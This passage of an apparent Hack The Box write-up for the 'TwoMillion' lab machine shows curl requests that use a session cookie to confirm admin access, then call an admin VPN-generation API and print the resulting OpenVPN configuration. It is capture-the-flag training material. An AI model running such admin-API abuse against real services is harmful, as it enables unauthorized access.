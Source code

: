 ```bash
curl http://2million.htb/api/v1/admin/auth --cookie
"PHPSESSID=nufb0km8892s1t9kraqhqiecj6" | jq
{
  "message": true
}
```

This time instead of an error we get the value `true` back indicating that we are indeed an admin now.

## Foothold

Let's check out the `/admin/vpn/generate` URL now that we have sufficient permissions.
   
```bash
curl -X POST http://2million.htb/api/v1/admin/vpn/generate --cookie
"PHPSESSID=nufb0km8892s1t9kraqhqiecj6" --header "Content-Type: application/json" | jq
{
  "status": "danger",
  "message": "Missing parameter: username"
}
```

The result informs us of a missing parameter called `username` . At this point we can infer that this is the
username of the user that the VPN will be generated for, so let's attempt to input a random username.

```bash
curl -X POST http://2million.htb/api/v1/admin/vpn/generate --cookie
"PHPSESSID=nufb0km8892s1t9kraqhqiecj6" --header "Content-Type: application/json" --data
'{"username":"test"}'

client
dev tun
proto udp
remote edge-eu-release-1.hackthebox.eu 1337
resolv-retry infinite
nobind
persist-key
persist-tun
remote-cert-tls server
comp-lzo
verb 3
data-ciphers-fallback AES-128-CBC
data-ciphers AES-256-CBC:AES-256-CFB:AES-256-CFB1:AES-256-CFB8:AES-256-OFB:AES-256-GCM
tls-cipher "DEFAULT:@SECLEVEL=0"
auth SHA256
key-direction 1
<ca>

-----BEGIN CERTIFICATE-----
MIIGADCCA+igAwIBAgIUQxzHkNyCAfHzUuoJgKZwCwVNjgIwDQYJKoZIhvcNAQEL
<SNIP>
```
